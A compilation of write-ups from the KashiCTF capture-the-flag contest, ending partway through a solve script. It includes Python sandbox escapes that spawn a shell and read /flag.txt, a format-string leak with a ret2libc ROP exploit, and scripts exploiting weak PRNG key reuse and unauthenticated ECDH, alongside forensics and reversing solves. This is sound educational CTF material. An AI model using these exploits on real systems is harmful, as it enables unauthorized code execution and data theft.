






# KashiCTF

# By bytecodesky

# Easy Jail 2 - Writeup

## Description
The challenge consists of escaping a Python sandbox (PyJail) to execute arbitrary system commands and read the flag.
## Analysis
The challenge environment restricts the execution of certain commands and modules. However, since we have an interactive Python session, we can look for ways to bypass these restrictions and execute arbitrary code.

## Exploitation
I discovered that the breakpoint() function could be used to access Python's interactive debugger. From there, it is possible to import modules like os and execute system commands.

The final exploit was:
```python
breakpoint()
import os; os.system("sh")
```
This gave us an interactive shell, allowing us to run:
```bash
cat /flag.txt
```
## Conclusion

Using `breakpoint()` allowed access to an interactive debugger, which enabled arbitrary command execution, making it possible to escape the sandbox and retrieve the flag.

# By m3tadr0id

# Lost Frequencies (CRYPTO)


### Description:

> Zeroes, ones, dots and dashes  
> Data streams in bright flashes

Given data:

```
111 0000 10 111 1000 00 10 01 010 1011 11 111 010 000 0
```

---

## Solution:

### Step 1: Recognizing the Pattern

The challenge hints at a connection between binary digits (0s and 1s) and Morse code due to the reference to "dots and dashes."

### Step 2: Interpreting the Data

Binary sequences like `111` and `0000` could represent Morse code elements:

- `1` can correspond to a dash (`-`)
- `0` can correspond to a dot (`.`)

Using this pattern, we attempted to decode the binary sequence into Morse code.

### Step 3: Decoding Morse Code

We used [dCode's Morse Code Decoder](https://www.dcode.fr/morse-code) to translate the extracted Morse code into readable text.




`KashiCTF{OHNOBINARYMORSE}`


### Game 1 - Untitled Game (Reverse)

Running `strings` on the binary immediately revealed the flag:



`KashiCTF{N07_1N_7H3_G4M3}`

### Look at Me (Dfir)

### Description:

> There is something wrong with him... What can it be??

We were given an image that reminded me of the software SilentEye, a tool used for steganography analysis.

### Solution:

Using SilentEye,  I analyzed the image and extracted hidden data. The decoded message revealed the flag:





`KashiCTF{K33p_1t_re4l}`

# The Troll Zone

```py
from pwn import *
context.arch="amd64"
p=remote("kashictf.iitbhucybersec.in",65239)
libc=ELF("libc.so.6")
p.sendlineafter("? ","%17$p")
p.recvuntil("Lmao not giving you ")
libc.address=int(p.recvline(keepends=False),16) -0x2724a
print(f"{hex(libc.address)=}")
p.sendlineafter("at? ",b'a'*0x28+p64(0x0040123f)+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym['system']))
p.interactive()
```
# By `superman`

- easy jail 1
    - `__import__('os').system('cat /flag.txt')`



- `MemorieBringBackYou` and `Corruption`
    - Running strings and grep for format flag KashiCTF{





# @jibe

## Misc

### Who am I ??

There is a phone number on the photography. A Google search on "+36 1 301 0433" gives the location: "Budapest, Bajcsy-Zsilinszky út 25, 1065 Hungary".

[Endre Bajcsy-Zsilinszky](https://en.wikipedia.org/wiki/Endre_Bajcsy-Zsilinszky) was an Hungarian politician, what confirms our findings. The last difficulty was to find the flag format. After several tries, we got `KashiCTF{Endre_Bajcsy_Zsilinszky}` (or `KashiCTF{Bajcsy_Zsilinszky}`, I can't remember and haven't taken notes for that one) working.

### FinalGame?

Straightforward steganography challenge with `chess-steg`. The tool has even an option to directly extract messages from lichess games with their link.

The flag can be immediately retrieved:

```shell
$ chess-steg -u https://lichess.org/incUSy5k    
KashiCTF{Will_This_Be_My_Last_Game_e94fab41}
```

### Self Destruct Debian

I haven't run the VM, but just grepped the flag in the provided VDI image. As often with such incorrectly designed challenges, flag is present in plaintext and can be almost immediately retrieved. A very similar challenge, "Suicide Linux", was proposed during [ECTF 2025](https://ctftime.org/event/2663). I solved it the exact same way.

I first searched for "KashiCTF" and stumbed upon this:

```shell
# /etc/hosts.allow: list of hosts that are allowed to access the system.
#                   See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: LOCAL @some_netgroup
#             ALL: .foobar.edu EXCEPT terminalserver.foobar.edu
#
# fLaG Part 1: 'KashiCTF{r'
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#
```

Other parts of the flag can be retrieved the same way, by searching for "fLaG Part":

```shell
 strings Self\ Destruct\ Debian.vdi|grep "fLaG Part"
grep -rs "fLaG Part " /
'W(# "fLaG Part " /
echo "fLaG Part 5: 'ht??_No_Er'"
grep -rsa "fLaG Part " /
rgrep -sa "fLaG Part " /
# fLaG Part 6: 'r0rs_4ll0w'
# fLaG Part 1: 'KashiCTF{r'
# fLaG Part 4: 't_Am_1_Rig' 
echo "fLaG Part 5: 'ht??_No_Er'"
"fLaG Part 7: 'ed_Th0}'\n\nfLaG Part 2: 'm_rf_no_pr'"
fLaG Part 7: 'ed_Th0}'
fLaG Part 2: 'm_rf_no_pr'
    char *secret = "fLaG Part 7: \'ed_Th0}\'\n\nfLaG Part 2: \'m_rf_no_pr\'";
echo "fLaG Part 3: 'eserve_roo'"
fLaG Part 7: 'ed_Th0}'
fLaG Part 2: 'm_rf_no_pr'
# Kernel image management overrides fLaG Part 4: 't_Am_1_Rig'
```

The complete flag is then `KashiCTF{rm_rf_no_preserve_root_Am_1_Right??_No_Err0rs_4ll0wed_Th0}`.

## Reverse

### Game 2 - Wait (Reverse)

wait.exe is a binary produced with [Godot Engine](https://godotengine.org/). The project can be recovered thanks to [Godot RE Tools](https://github.com/GDRETools/gdsdecomp).

The project can finally be edited with Godot Engine. The online version (<https://editor.godotengine.org/releases/latest/>) has been used here. Once started, the project shows a set of blank tiles and a message at the bottom:

> 172800 sec left to form the flag please wait

The tiles are displayed according to the remaining time. This is computed by the main GDScript `main.gd`:

```javascript
func update():
    for i in range($pixels.get_child_count()):
        var dir = pos[i]-curr_pos[i]
        $pixels.get_child(i).global_position = (1-float(time_left)/172800)*dir+ curr_pos[i]
```

`time_left` is initially set to 172800 and updated during idle processing, which calls the `update` function:

```javascript
var time_left=172800

func _process(delta):
    var curr_time = Time.get_datetime_dict_from_system()
    time_left = (ct.month-curr_time.month)*86400*30+(ct.year-curr_time.year)*86400*30*12+(ct.day-curr_time.day)*86400+(ct.hour-curr_time.hour)*3600+(ct.minute-curr_time.minute)*60+(ct.second-curr_time.second)
    time_left=max(0,time_left)
    $Label.text = str(time_left)
    update()
```

To avoid waiting for 172800s, one can simply replace `time_left=max(0,time_left)` with `time_left=0`. The correct flag will be formed by the tiles.

Flag: `KashiCTF{Ch4kr4_Vyuh}`

### Game 3 - CatSeabank

This challenge is a Unity game in which your character has to pay 2000, while you have 0. The game logic is in `Managed/Assembly-CSharp.dll`, and has been analyzed with ILSpy. The method responsible for displaying the "Success" button is `CheckInput`, from the `HinterPanel` class:

```csharp
public void CheckInput()
{
    if (int.TryParse(inputField.text, out var result))
    {
        if (result < PlayerData.Instance.currentBalance && result >= PlayerData.Instance.requiredAmount)
        {
            errorMessageText.text = "Success";
            successButton.gameObject.SetActive(value: true);
            successButton.interactable = true;
        }
        else if (result < PlayerData.Instance.requiredAmount)
        {
            errorMessageText.text = "Input amount is less than the required amount.";
            successButton.interactable = false;
        }
        else if (result >= PlayerData.Instance.currentBalance)
        {
            errorMessageText.text = "Input amount exceeds the player's bank balance.";
            successButton.interactable = false;
        }
    }
    else
    {
        errorMessageText.text = "Input is not a valid integer.";
        successButton.interactable = false;
    }
}
```

One has to pass the two conditions `result < PlayerData.Instance.currentBalance` and `result >= PlayerData.Instance.requiredAmount` to activate  `successButton`. During the CTF, I patched the .NET IL to bypass the conditions, but I realized patching was not necessary while writing this solution.

Initial user balance is 0. Money can be withdrawn from the bank. There is a logic bug allowing the user to deposit a negative amount of money to the bank. By depositing -3000, user gets a balance of 3000 and can pay the required amount to the cow-boy.

Clicking the "Get Wisdom" button only plays a sound telling the flag is embedded somewhere in the binary ("extract what is unseed, and seek the whispers..." "where the melody reveals its truth"). The flag seems to be somewhere in the Unity assets.

I extracted the Unity resources with [AssetRipper](https://github.com/AssetRipper/AssetRipper), and found nothing interesting. The challenge got updated, and a new file was added to the assets in `AudioClip/flagfile.ogg`. Such a name indicates the flag is there.

The flag is hidden in the audio spectrogram, which can be seen with Audacity or Sonic Visualizer. I got some difficulties to get the correct flag, as it was quite difficult to read.

Flag: `KashiCTF{1t_Wa5_Ju5t_4_Tutori4l_RIP}`

## Crypto

### Random-Inator

In this challenge, you have to break a remote service that returns the encrypted flag, and any message provided by the client.

Every data is encrypted with AES-128, and keys and IVs are generated by a custom, unknown PRNG. The lack of vulnerability in the provided code, the custom PRNG and the hint with "I don't like to repeat myself" made us think the vulnerability was a very weak PRNG.

This can be manually verified. Here is the captured output of the server returning the encrypted version of empty messages:

```shell
$ nc kashictf.iitbhucybersec.in 61408

Doofenshmirtz Evil Incorporated!!!

All right, I don't like to repeat myself here but it just happens
Anyhow, here's the encrypted message: da4f91417cc40c722bea594809044f3d2daaf555bdd18568fc050e8f6f4a70a4d36a58d45be7c745bba3d29beed7dd0346616e4896e033e6942726153753b9443cd574fbcd8e74a56be696a0062da11a6f53ba8fcee96cfd8f09105fb13ab351
Ohh, How I love EVIL

Plaintext >> 
f6a9d2852e5c9c5e249188bd32776866ff3379c919b5ea550d6b05f05ec99abb

Plaintext >> 
5d03b39ad3d949e73d297734a9f84b72e25f7638cf87226407b51339f6fcf580

Plaintext >> 
a221a2e491207cf23f755e9cbc052de86fefdb14d093440d3ddc36ab8df6a6db

Plaintext >> 
6be0323ac7b2f98edc19907467950a36ab0521ad82d6680a4a5aed4f52890c73

Plaintext >> 
a221a2e491207cf23f755e9cbc052de86fefdb14d093440d3ddc36ab8df6a6db

Plaintext >> 
f6a9d2852e5c9c5e249188bd32776866ff3379c919b5ea550d6b05f05ec99abb
```

f6a9d2852e5c9c5e249188bd32776866ff3379c919b5ea550d6b05f05ec99abb and a221a2e491207cf23f755e9cbc052de86fefdb14d093440d3ddc36ab8df6a6db are repeated twice. That means the same IV and key are reused.

There are only 10 different IVs per session. This can be verified with this script:

```python
from pwnlib.tubes.remote import remote
from tqdm import tqdm

with remote("kashictf.iitbhucybersec.in", 61408) as r:
    for _ in range(4):
        r.recvline()

    ivs = set()
    for _ in tqdm(range(100)):
        r.sendlineafter(b"Plaintext >> ", b"")
        ct = r.recvline().decode()
        iv = ct[:32]
        ivs.add(iv)
    print(f"{len(ivs)} different IVs have been collected")

```

Its output is:

```shell
python count_rng_outputs.py
100%|█████████████████████████████████████████████████████████████████████████| 100/100 [00:13<00:00,  7.15it/s]
10 different IVs have been collected
```

As keys and IVs are generated with the same PRNG, it can be supposed that these 10 values are also the only possible values for the AES key. One can the collect every possible IV (hence key), and try to decrypt the flag with each key.

The complete solve script is given below.

```python
import re

from Crypto.Cipher import AES
from pwnlib.tubes.remote import remote

r = remote("kashictf.iitbhucybersec.in", 61408)

# Get ciphertext
server_data = ""
for _ in range(4):
    server_data += r.recvline().decode()
ciphertext = bytes.fromhex(re.findall(r"([0-9a-f]{192})", server_data)[0])

# Grab possible keys
possible_keys = set()
while len(possible_keys) < 10:
    r.sendlineafter(b"Plaintext >> ", b"")
    ct = r.recvline().decode()
    iv = ct[:32]
    possible_keys.add(bytes.fromhex(iv))

# Decrypt flag
for key in possible_keys:
    c = AES.new(key, AES.MODE_CBC, ciphertext[:AES.block_size])
    pt = c.decrypt(ciphertext[AES.block_size:])
    if pt.startswith(b"KashiCTF"):
        print(pt.decode())
        break

r.close()
```

Flag: `KashiCTF{Y0u_brOK3_mY_R4Nd0m_In4t0r_Curse_yOu_Perry_tH3_Pl4TYpus_uxVUQCXl}`

### Key Exchange

This challenge is a straightforward ECDH key exchange. A shared secret is exchanged between the server and a client (us). It is used to derived an AES key, used by the server to transmit the encrypted flag.

There is no authentication with the server, so the flag can be immediately retrieved.

To keep things as simple as possible, I've sent the generator as my public key, so the shared secret is x-coordinate of the server public key.

Here is a session with the server:

```shell
$ nc kashictf.iitbhucybersec.in 51225

Received from Weierstrass:
   Here are the curve parameters (NIST P-384)
   p = 39402006196394479212279040100143613805079739270465446667948293404245721771496870329047266088258938001861606973112319
   a = -3
   b = 27580193559959705877849011840389048093056905856361568521428707301988689241309860865136260764883745107765439761230575
   And my Public Key: (24902136474701831402356908808549719886093974671342806761111961721534215008344194367744711954180950301343462569288988,11828875162603113769571548466659008972064771780168714512919914241862180512691964392614892174939910510993063110913635)

Send to Weierstrass:
   Public Key x-coord: 26247035095799689268623156744566981891852923491109213387815615900925518854738050089022388053975719786650872476732087
   Public Key y-coord: 8325710961489029985546751289520108179287853048861315594709205902480503199884419224438643760392947333078086511627871

Received from Weierstrass:
   Message: {"iv": "8dd0b4f26774bd6232f4f8404d2c9c14", "ciphertext": "5cb2dbc0ef1ad8f0a9f41c4d3f5bb33c2ac60f2b90d21be669051069ba6e63b503e4adf92083b6ec8567bf56cf411a0d74f07dab4086d4023a59b1475be88ff891ad378af21b917281daf57a7d8338e81f13a43ff8a74307833dcc8d4e3c9d5e"}

```

(2624703509579968..., 8325710961489029) is the generator of NIST P-384. The shared secret is then 1 * server_public_key.x = 2490213647470183...

The flag can be decrypted with:

```python
def decrypt_flag(shared_secret: int, data: bytes, iv: bytes) -> str:
    sha1 = hashlib.sha1()
    sha1.update(str(shared_secret).encode("ascii"))
    key = sha1.digest()[:16]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(data), AES.block_size).decode()

ss = 24902136474701831402356908808549719886093974671342806761111961721534215008344194367744711954180950301343462569288988
print(decrypt_flag(ss, bytes.fromhex("5cb2dbc0ef1ad8f0a9f41c4d3f5bb33c2ac60f2b90d21be669051069ba6e63b503e4adf92083b6ec8567bf56cf411a0d74f07dab4086d4023a59b1475be88ff891ad378af21b917281daf57a7d8338e81f13a43ff8a74307833dcc8d4e3c9d5e"), bytes.fromhex("8dd0b4f26774bd6232f4f8404d2c9c14")))
```

We obtain the following output:

```text
NaeusGRX{L_r3H3Nv3h_kq_Sun1Vm_O3w_4fg_4lx_1_t0d_a4q_lk1s_X0hcc_Dd4J_sxIZk83R}

Hint: DamnKeys
```

This is a Vigenere encryption with the key "DamnKeys". It can be decoded for example with <https://www.dcode.fr/vigenere-cipher>.

Flag: `KashiCTF{I_r3V3Al3d_my_Pub1Ic_K3y_4nd_4ll_1_g0t_w4s_th1s_L0usy_Fl4G_slVPg83T}`

### Absolutely Encrypted Shenanigans

The first step of this challenge is to send back the IV used to encrypt a fake flag, 10 times. The flag is encrypted with AES in CBC mode, and the key is provided, so that sounds like an easy task. In CBC mode, each block of plaintext is xored with the previous ciphertext block, which is the IV for the first block.

IV is 8 bytes repeated twice in this challenge: `iv = os.urandom(8)*2`. As the first 8 bytes of the flag are "KashiCTF", one can:

- Decrypt the data returned by the server with the provided key
- Xor the first 8 bytes with "KashiCTF" to get the IV
- Send back the computed IV to the server

However, the provided AES version has been modified, and only the encryption primitives are provided in the Python script. The decryption primitives have to be implemented. The initial implementation has been taken from a pure-Python AES implementation, commonly used in CTF. Hence most of the primitives can be ripped from it ([this one](https://github.com/p4-team/ctf/blob/master/2021-05-28-pwn2win/a2s/a2s.py) for example).

The `shift_rows` has been modified for the challenge and is not standard. It has been inversed with ChatGPT to gain some time:

```python
def inv_shift_rows(s):
    s[2][2], s[3][3], s[0][0], s[1][1], s[2][1], s[1][2], s[3][0], s[2][3], s[0][3], s[0][2], s[3][2], s[0][1], s[3][1], \
    s[1][0], s[2][0], s[1][3] = s[2][2], s[2][1], s[0][3], s[2][0], s[3][3], s[2][3], s[3][1], s[1][3], s[0][2], s[1][0], \
    s[0][1], s[0][0], s[1][1], s[3][0], s[3][2], s[1][2]
    return s
```

`decrypt_block` can be directly ripped from public implementations, and `decrypt`  has been reimplemented by hand, based on `encrypt`.

Once this has been implemented, the fake flag (except the first block, incorrectly decoded) can be decrypted. This allows to compute the IV:

```python
    data = json.loads(json_data)
    key = bytes.fromhex(data["key"])
    ciphertext = bytes.fromhex(data["ciphertext"])
    pt = decrypt(key, ciphertext, "CBC", iv=b"\x00" * 16)
    known_pt = pt[:8]
    iv = bytes(a ^ b for a, b in zip(b"KashiCTF", known_pt)) * 2
    print(iv.hex())
    r.sendlineafter(b"Enter iv: ", iv.hex().encode())
    r.recvline()
```

Once 10 IVs have been successfully sent back to the server, the real flag is transmitted.

Again, one has to compute the correct IV to decrypt the first block, and then obtain the full flag.

Full implementation is given below.

```python
import json

from pwnlib.tubes.remote import  remote


def xor(b1, b2):
    if len(b1) != len(b2):
        raise ValueError("Lengths of byte strings are not equal")
    return bytes([b1[i] ^ b2[i] for i in range(len(b1))])


def bytes2matrix(text):
    return [list(text[i:i + 4]) for i in range(0, len(text), 4)]


def matrix2bytes(matrix):
    s = b""
    for l in matrix:
        s += bytes(l)
    return s


def inv_shift_rows(s):
    s[2][2], s[3][3], s[0][0], s[1][1], s[2][1], s[1][2], s[3][0], s[2][3], s[0][3], s[0][2], s[3][2], s[0][1], s[3][1], \
    s[1][0], s[2][0], s[1][3] = s[2][2], s[2][1], s[0][3], s[2][0], s[3][3], s[2][3], s[3][1], s[1][3], s[0][2], s[1][0], \
    s[0][1], s[0][0], s[1][1], s[3][0], s[3][2], s[1][2]
    return s


xtime = lambda a: (((a << 1) ^ 0x1B) & 0xFF) if (a & 0x80) else (a << 1)


def mix_single_column(a):
    t = a[0] ^ a[1] ^ a[2] ^ a[3]
    u = a[0]
    a[0] ^= t ^ xtime(a[0] ^ a[1])
    a[1] ^= t ^ xtime(a[1] ^ a[2])
    a[2] ^= t ^ xtime(a[2] ^ a[3])
    a[3] ^= t ^ xtime(a[3] ^ u)
    return a


def mix_columns(s):
    for i in range(4):
        s[i] = mix_single_column(s[i])
    return s


def inv_mix_columns(s):
    # see Sec 4.1.3 in The Design of Rijndael
    for i in range(4):
        u = xtime(xtime(s[i][0] ^ s[i][2]))
        v = xtime(xtime(s[i][1] ^ s[i][3]))
        s[i][0] ^= u
        s[i][1] ^= v
        s[i][2] ^= u
        s[i][3] ^= v

    mix_columns(s)
    return s


s_box = (
    0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76,
    0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0,
    0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15,
    0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75,
    0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84,
    0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF,
    0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8,
    0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2,
    0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73,
    0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB,
    0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79,
    0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 0xAE, 0x08,
    0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A,
    0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E,
    0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF,
    0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16,
)


inv_s_box = (
    0x52, 0x09, 0x6A, 0xD5, 0x30, 0x36, 0xA5, 0x38, 0xBF, 0x40, 0xA3, 0x9E, 0x81, 0xF3, 0xD7, 0xFB,
    0x7C, 0xE3, 0x39, 0x82, 0x9B, 0x2F, 0xFF, 0x87, 0x34, 0x8E, 0x43, 0x44, 0xC4, 0xDE, 0xE9, 0xCB,
    0x54, 0x7B, 0x94, 0x32, 0xA6, 0xC2, 0x23, 0x3D, 0xEE, 0x4C, 0x95, 0x0B, 0x42, 0xFA, 0xC3, 0x4E,
    0x08, 0x2E, 0xA1, 0x66, 0x28, 0xD9, 0x24, 0xB2, 0x76, 0x5B, 0xA2, 0x49, 0x6D, 0x8B, 0xD1, 0x25,
    0x72, 0xF8, 0xF6, 0x64, 0x86, 0x68, 0x98, 0x16, 0xD4, 0xA4, 0x5C, 0xCC, 0x5D, 0x65, 0xB6, 0x92,
    0x6C, 0x70, 0x48, 0x50, 0xFD, 0xED, 0xB9, 0xDA, 0x5E, 0x15, 0x46, 0x57, 0xA7, 0x8D, 0x9D, 0x84,
    0x90, 0xD8, 0xAB, 0x00, 0x8C, 0xBC, 0xD3, 0x0A, 0xF7, 0xE4, 0x58, 0x05, 0xB8, 0xB3, 0x45, 0x06,
    0xD0, 0x2C, 0x1E, 0x8F, 0xCA, 0x3F, 0x0F, 0x02, 0xC1, 0xAF, 0xBD, 0x03, 0x01, 0x13, 0x8A, 0x6B,
    0x3A, 0x91, 0x11, 0x41, 0x4F, 0x67, 0xDC, 0xEA, 0x97, 0xF2, 0xCF, 0xCE, 0xF0, 0xB4, 0xE6, 0x73,
    0x96, 0xAC, 0x74, 0x22, 0xE7, 0xAD, 0x35, 0x85, 0xE2, 0xF9, 0x37, 0xE8, 0x1C, 0x75, 0xDF, 0x6E,
    0x47, 0xF1, 0x1A, 0x71, 0x1D, 0x29, 0xC5, 0x89, 0x6F, 0xB7, 0x62, 0x0E, 0xAA, 0x18, 0xBE, 0x1B,
    0xFC, 0x56, 0x3E, 0x4B, 0xC6, 0xD2, 0x79, 0x20, 0x9A, 0xDB, 0xC0, 0xFE, 0x78, 0xCD, 0x5A, 0xF4,
    0x1F, 0xDD, 0xA8, 0x33, 0x88, 0x07, 0xC7, 0x31, 0xB1, 0x12, 0x10, 0x59, 0x27, 0x80, 0xEC, 0x5F,
    0x60, 0x51, 0x7F, 0xA9, 0x19, 0xB5, 0x4A, 0x0D, 0x2D, 0xE5, 0x7A, 0x9F, 0x93, 0xC9, 0x9C, 0xEF,
    0xA0, 0xE0, 0x3B, 0x4D, 0xAE, 0x2A, 0xF5, 0xB0, 0xC8, 0xEB, 0xBB, 0x3C, 0x83, 0x53, 0x99, 0x61,
    0x17, 0x2B, 0x04, 0x7E, 0xBA, 0x77, 0xD6, 0x26, 0xE1, 0x69, 0x14, 0x63, 0x55, 0x21, 0x0C, 0x7D,
)

def add_round_key(s, k):
    ns = []
    for i in range(4):
        ns.append([])
        for j in range(4):
            ns[i].append(s[i][j] ^ k[j][i])
    return ns


def sub_bytes(s, sbox=s_box):
    resmatrix = []
    for i in range(4):
        resmatrix.append([])
        for j in range(4):
            hexval = hex(s[i][j])[2:]
            if len(hexval) == 1:
                a, b = 0, int(hexval, 16)
            else:
                a, b = int(hexval[0], 16), int(hexval[1], 16)
            resmatrix[i].append(sbox[a * 16 + b])

    return resmatrix


N_ROUNDS = 10


def expand_key(master_key):
    r_con = (
        0x00, 0x01, 0x02, 0x04, 0x08, 0x10, 0x20, 0x40,
        0x80, 0x1B, 0x36, 0x6C, 0xD8, 0xAB, 0x4D, 0x9A,
        0x2F, 0x5E, 0xBC, 0x63, 0xC6, 0x97, 0x35, 0x6A,
        0xD4, 0xB3, 0x7D, 0xFA, 0xEF, 0xC5, 0x91, 0x39,
    )
    key_columns = bytes2matrix(master_key)
    iteration_size = len(master_key) // 4
    i = 1
    while len(key_columns) < (N_ROUNDS + 1) * 4:
        word = list(key_columns[-1])
        if len(key_columns) % iteration_size == 0:
            word.append(word.pop(0))
            word = [s_box[b] for b in word]
            word[0] ^= r_con[i]
            i += 1
        elif len(master_key) == 32 and len(key_columns) % iteration_size == 4:
            word = [s_box[b] for b in word]
        word = bytes(i ^ j for i, j in zip(word, key_columns[-iteration_size]))
        key_columns.append(word)
    return [key_columns[4 * i: 4 * (i + 1)] for i in range(len(key_columns) // 4)]


def decrypt_block(key, ciphertext):
    round_keys = expand_key(
        key)  # Remember to start from the last round key and work backwards through them when decrypting

    # Convert ciphertext to state matrix
    state = bytes2matrix(ciphertext)

    # Initial add round key step
    last_round_key = round_keys.pop()
    state = add_round_key(state, last_round_key)

    for i in range(N_ROUNDS - 1, 0, -1):
        last_round_key = round_keys.pop()
        inv_shift_rows(state)
        state = sub_bytes(state, inv_s_box)
        state = add_round_key(state, last_round_key)
        inv_mix_columns(state)

    # Run final round (skips the InvMixColumns step)
    inv_shift_rows(state)
    state = sub_bytes(state, sbox=inv_s_box)
    state = add_round_key(state, round_keys[0])

    # Convert state matrix to plaintext
    plaintext = matrix2bytes(state)
    return plaintext


def decrypt(key, ciphertext, mode="ECB", iv=None):
    if len(ciphertext) % 16 != 0:
        raise ValueError("Invalid Plaintext")
    elif len(key) != 16:
        raise ValueError("Invalid Key")
    plaintext = b""
    if mode == "ECB":
        for i in range(0, len(ciphertext), 16):
            plaintext += decrypt_block(key, ciphertext[i: i + 16])

    elif mode == "CBC":
        if not iv or len(iv) != 16:
            raise ValueError("Invalid IV")
        plaintext += iv
        for i in range(0, len(ciphertext), 16):
            plaintext += xor(decrypt_block(key, ciphertext[i: i + 16]), iv)
            iv = ciphertext[i : i + 16]

    return plaintext[16:]

def pad(text, blocksize):
    padding_len = blocksize - (len(text) % blocksize)
    padding = bytes([padding_len]) * padding_len
    return text + padding


def unpad(text, blocksize):
    padding_len = text[-1]
    padding = bytes([padding_len]) * padding_len
    assert padding_len in range(1, blocksize) and text[-padding_len:] == padding
    return text[:-padding_len]


def main():
    r = remote("kashictf.iitbhucybersec.in", 65167)

    for _ in range(10):
        json_data = r.recvline().decode()
        data = json.loads(json_data)
        key = bytes.fromhex(data["key"])
        ciphertext = bytes.fromhex(data["ciphertext"])
        pt = decrypt(key, ciphertext, "CBC", iv=b"\x00" * 16)

